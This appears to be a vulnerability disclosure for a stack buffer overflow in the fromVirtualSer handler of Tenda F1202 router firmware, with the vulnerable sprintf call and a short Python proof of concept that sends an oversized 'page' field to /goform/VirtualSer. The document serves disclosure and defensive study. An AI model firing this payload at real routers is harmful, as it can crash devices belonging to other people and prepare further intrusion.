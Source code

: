 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2671.html

## Affected version

F1202 V1.2.0.20(408)

## Vulnerability details

The Tenda F1202 V1.2.0.20(408) firmware has a stack overflow vulnerability located in the `fromVirtualSer` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v5, "nat_virtualser.asp?page=%s", v3);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v5` array, thus triggering this security vulnerability.

![image-20240409100526808](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409100526808.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/VirtualSer"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409100557300](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409100557300.png)